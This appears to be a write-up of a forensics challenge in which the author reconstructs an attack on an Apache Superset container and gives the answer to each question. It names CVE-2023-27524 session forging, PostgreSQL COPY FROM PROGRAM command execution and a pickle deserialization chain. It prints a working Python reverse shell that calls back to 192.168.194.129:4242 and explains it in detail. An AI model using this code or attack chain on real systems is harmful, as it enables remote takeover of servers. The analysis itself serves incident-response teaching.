







# WhaleSecret


## Sherlock Scenario

Our team was called in to investigate a security incident of an internal web application. The only thing we know is that the web application was running on docker. The team acquired triage data as well as an important folder from the docker running the exploited service. Your task is to investigate the incident.

## Given artefacts

Some cache data from Posgresql inside `sqllab` and a Unix-like artifact Collector (UAC) folder

## Questions

### 1. What was the IP and port of the vulnerable server?

To find the main network interface, we will read `live_response/network/ip_addr_show.txt`, there are a lot of IPs, but most of them are virtual interfaces created by Docker (like docker0, br-..., veth...) or the loopback address (lo / 127.0.0.1). What we care is `ens33` only:



With that IP in mind, we will inspect Docker artifacts to see which containers are running and which ports are bound to them. Look at `live_response/containers/docker_container_ls_--all_--size.txt` (output of command `docker ps -a -s`):



It's clear that an Apache superset app is running inside a container with ID `dee3...`, traffic to any interface of the host machine port 8088 is forwarded to port 8088 inside this containter. Thus:

**Answer: 192.168.194.128:8088**

### 2. What was the name of the vulnerable software hosted on the system?

Can be seen from previous question

**Answer: Apache Superset**

### 3. What was the IP of the malicious threat actor ?

Open `docker_container_logs_dee3f31ac261` in the same folder, that is the apache app's access log, I load it to `splunk`. Looking at the `clientip` field, there are only 3 entries, one is normal Firefox browsing, one other is the host using curl to check health status. The one left is suspicious, it first use normal browser to suft, but then Nmap and python request is utilized:



**Answer: 192.168.194.129**

### 4. What CVE did the malicious actor exploit?

Search for 'apache superset 2.0.0 CVE' yields this vulnerability:



In short: Apache Superset is built on the Flask web framework. Version 2.0.0 shipped with a default, hardcoded `SECRET_KEY`. The attacker didn't hack a password; they used that publicly known default key to mathematically forge a valid session cookie, instantly granting themselves Admin access.

**Answer: CVE-2023-27524**

### 5. What User-Agent did the malicious actor use while exploiting the vulnerability?

Can be seen in the splunk snapshot

**Answer: python-requests/2.26.0**

### 6. At what time did the malicious actor first use the exploit?

Also seen in that image

**Answer: 2025-11-01 19:26:14**

### 7. At what time was the first system command executed through the exploit?

Since the attacker exploited the Superset SQLLab feature (which lets users execute arbitrary SQL queries against connected databases), Superset actually keeps a cache of all executed queries and their results. (I say a feature, as it is truly not a bug!)

The `sqllab/sqllab_copy/` folder contains those cached SQLLab query records, yet not in plaintext. It's zlib compressed and serialized, so I will use cyberchef tp handle them. Drop first 22 bytes as they're just cache header, then Zlib inflate, then From message pack to get a clean json format. Among normal queries, we will see one feature being abused here:



That query executes the command `ls /etc/passwd` and copies output to the `cmd_output` table. This is not a bug in Superset! This is a legitimate PostgreSQL feature. The `COPY ... FROM PROGRAM` command is designed to allow database administrators to ingest data directly from the output of a system shell command. Because the database connection configured in Superset had high privileges on the Postgres database, Postgres happily executed the system command and returned the output as requested.

The displayed time is not correct when submitted, I think that is for the time of query executed, and the shell execution is delayed a bit

**Answer: 2025-11-01 19:27:42**

### 8. What was the first system command executed through the exploit?

Already covered

**Answer: ls /etc/passwd**

### 9. Which port did the reverse shell connect to?

Here comes the interesting part, look at one executed query:



To understand what happened, we need to break down a concept called Insecure Deserialization, specifically focusing
on how Python handles it.

  #### What is Serialization?

  Imagine you have a complex object in a Python application's memory—like a dashboard state containing user
  preferences, selected filters, and chart layouts. If you want to save that state to a database so the user can load
  it later, you can't just easily stuff a complex in-memory object into a standard database row.

  You have to translate that object into a flat string of bytes that can be saved to disk. This process is called
  Serialization. When the user comes back, the application reads those bytes from the database and reconstructs the
  object in memory. This is called Deserialization.

  In Python, the standard library used for this is called `pickle`.
  #### The Superset Feature

  Superset has a feature that allows users to create "permalinks" for dashboards. If you have a highly customized
  dashboard view, you can generate a short link to share it.
  To make this work, Superset took the complex Python object representing your dashboard state, used `pickle` to
  serialize it into bytes, and saved those bytes into a database table called `key_value`.

  When someone visits that permalink URL (e.g., `/superset/dashboard/p/Px38M35XJNG/`), Superset queries the `key_value`
  table, grabs the bytes, and runs `pickle.loads(bytes)` to rebuild the dashboard object.
  #### The Fatal Flaw (The Vulnerability)

  The danger of Python's `pickle` library is that it doesn't just store static data (like JSON does). It can also store
  instructions for how to reconstruct objects.

  Specifically, you can craft a pickle payload that says: "To rebuild this object, you must first execute this Python
  function: `os.system("some command")`".
  Because pickle is designed to blindly follow instructions to rebuild objects, if an attacker can feed their own
  custom bytes into `pickle.loads()`, the server will execute whatever Python code the attacker wants.

  #### The Attacker's Exploit Chain

  Because the attacker had already exploited the `SECRET_KEY` vulnerability (`CVE-2023-27524`) to become an Admin, they
  had access to the SQLLab feature.

  They abused SQLLab to completely bypass the normal web interface and talk directly to the underlying database. Here
  is exactly what they did:
  1. They generated a malicious `pickle` payload on their own computer. This payload contained instructions to execute
  a Python reverse shell.
  2. They converted that payload into a Hex string so it could be easily injected via SQL.
  3. They used SQLLab to run an UPDATE `key_value` SET value = <hex_payload> command. This essentially planted a
  landmine in the database, disguised as a saved dashboard state.
  4. Finally, the attacker sent a normal web request to GET `/superset/dashboard/p/Px38M35XJNG/`.

  When Superset received that web request, it did what it was programmed to do: it fetched the data from the database
  and ran `pickle.loads()` on it. The moment it did that, the malicious instructions were executed, the reverse shell
  was spawned, and the attacker had full control over the underlying server.

Now we will handle the hex string using `pickletools`, a package used to safely deserialize object:



  Here is the code neatly formatted:

  ```python
    import socket, subprocess, os

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.194.129", 4242))

    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)

    subprocess.call(["/bin/sh", "-i"])
 ```
  #### The Connection

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.194.129", 4242))

  This part is straightforward. It creates a standard TCP network socket and connects out to the attacker's IP
  address on port 4242. At this point, a network tunnel exists between the compromised server and the attacker.

  #### The `os.dup2()` Magic (The tricky part)

  To understand this, you need to know about File Descriptors. In Linux, every process automatically opens three
  standard "files" when it starts, represented by numbers:

  • 0 (Standard Input / STDIN): Where the program expects to receive typing/input.

  • 1 (Standard Output / STDOUT): Where the program prints normal text.

  • 2 (Standard Error / STDERR): Where the program prints error messages.

  The network socket we just created also gets assigned a number by Linux. We can find out what number it is by
  calling `s.fileno()`.

  The os.dup2(old_file, new_file) function tells the operating system to duplicate a file descriptor.

  • `os.dup2(s.fileno(), 0)` means: "Take my network socket, and replace my Standard Input (0) with it."

  • `os.dup2(s.fileno(), 1)` means: "Replace my Standard Output (1) with my network socket."

  • `os.dup2(s.fileno(), 2)` means: "Replace my Standard Error (2) with my network socket."

  What did this achieve? It completely hijacked the Python program's "mouth" and "ears". Anything the program tries
  to print to the screen will instead be sent across the network. Anything the program tries to read from a keyboard
  will instead be read from the network!

  #### Spawning the Shell

    subprocess.call(["/bin/sh", "-i"])

  Finally, Python uses subprocess to spawn an interactive (`-i`) Linux shell (`/bin/sh`).

  Because we just hijacked Python's input and output, this new shell inherits those hijacked settings!

  • When the shell prints $  to the screen, it goes through the network to the attacker.

  • When the attacker types ls on their computer, it travels through the network, directly into the shell's Standard
  Input.

  And just like that, the attacker has a fully interactive command line on the server!

**Answer: 4242**

## Further reading (if you're unclear about the reverse shell mechanism)

The name "File Descriptor" is confusing at first, but it makes perfect sense once you understand the core design philosophy of Linux: "Everything is a file."

Let's drop the analogies and look at the actual computer science happening in the Linux Kernel.
  ### 1. "Everything is a File"

  In Windows, reading from a hard drive is handled differently than reading from a network, which is handled
  differently than reading from a keyboard.

  When Unix (and later Linux) was created, the engineers decided to unify all of this. They wrote the operating
  system so that everything—a text file on a hard drive, a USB keyboard, a monitor, a network connection, and a
  pipe—is treated identically by the system: as a simple stream of bytes.

  Because the operating system treats them all identically, it refers to all of them as "files."

  • Your keyboard is a file (e.g., `/dev/input/...`)

  • Your terminal screen is a file (e.g., `/dev/pts/0`)

  • A network connection is an in-memory file.

  ### 2. The File Descriptor Table
  When you run a process in Linux, the Kernel creates a data structure in RAM to manage that process. Inside that
  data structure is a simple Array (a list), called the File Descriptor Table.
  A "File Descriptor" is literally just the integer index (0, 1, 2, 3...) of this array.

  When a process starts, the Kernel automatically populates the first three slots (indices 0, 1, and 2) with
  pointers. A pointer is just a memory address telling the Kernel where the actual "file" object is located in RAM.

  • Index 0 (STDIN): Contains a pointer to the Terminal Input buffer.

  • Index 1 (STDOUT): Contains a pointer to the Terminal Display buffer.

  • Index 2 (STDERR): Contains a pointer to the Terminal Display buffer.

  When a program wants to print text, it doesn't write to the screen directly. It tells the Kernel: "Write the word
  'Hello' to File Descriptor 1." The Kernel looks at Index 1 in the array, follows the pointer to the display buffer,
  and draws the text.
  ### 3. What the Python Code Actually Does

  Now let's trace the exploit at the Kernel level.

  Code: s = socket.socket(...)
  1. Python asks the Kernel to create a TCP network connection.
  2. The Kernel creates the network socket object in memory.
  3. The Kernel looks at the process's File Descriptor Table, finds the next empty slot (Index 3), and puts a pointer
  to the network socket there.
  4. The Kernel returns the integer 3 back to Python. (So, s.fileno() is 3).
  Code: os.dup2(3, 0)
  This is a raw system call that manipulates the File Descriptor Table array.
  It tells the Kernel: "Take the pointer located at Index 3, and overwrite whatever pointer is currently sitting at
  Index 0."
  Then it does the same for Index 1 and 2.

  The result in the Kernel's Array:

  • Index 0: Pointer to Network Socket

  • Index 1: Pointer to Network Socket

  • Index 2: Pointer to Network Socket

  • Index 3: Pointer to Network Socket

  ### 4. Spawning the Shell

  Code: subprocess.call(["/bin/sh", "-i"])
  When Python asks the Kernel to start /bin/sh, the Kernel creates a new process. But by default, a child process
  inherits an exact copy of its parent's File Descriptor Table.

  When `/bin/sh` starts up, it wants to display the command prompt ($ ).
  It tells the Kernel: "Write a dollar sign to File Descriptor 1."

  `/bin/sh` has no idea it has been hacked. It is just following its programming. The Kernel looks at Index 1 in the
  shell's array, follows the pointer—which now points to the TCP network socket—and transmits the byte over the
  internet to the attacker.

  That is the absolute, ground-truth reality of how a reverse shell works!
